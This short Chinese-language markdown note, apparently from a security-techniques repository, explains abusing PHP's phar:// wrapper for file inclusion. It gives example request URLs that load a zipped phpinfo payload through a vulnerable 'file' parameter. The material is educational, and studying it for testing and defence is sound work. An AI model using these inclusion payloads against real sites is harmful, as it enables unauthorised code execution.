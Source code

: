 





####  **[phpfilter利用手法.md](phpfilter利用手法.md)**





### 伪协议利用：phar://

利用条件：

1. php版本大于等于php5.3.0



假设有个文件phpinfo.txt，其内容为`<?php phpinfo(); ?>`，打包成zip压缩包，如下：

![img](assets/9.png)



指定**绝对路径**

```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
```



或者使用**相对路径**（这里test.zip就在当前目录下）

```
index.php?file=phar://test.zip/phpinfo.txt
```



[![img](assets/10.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/10.png?raw=true)

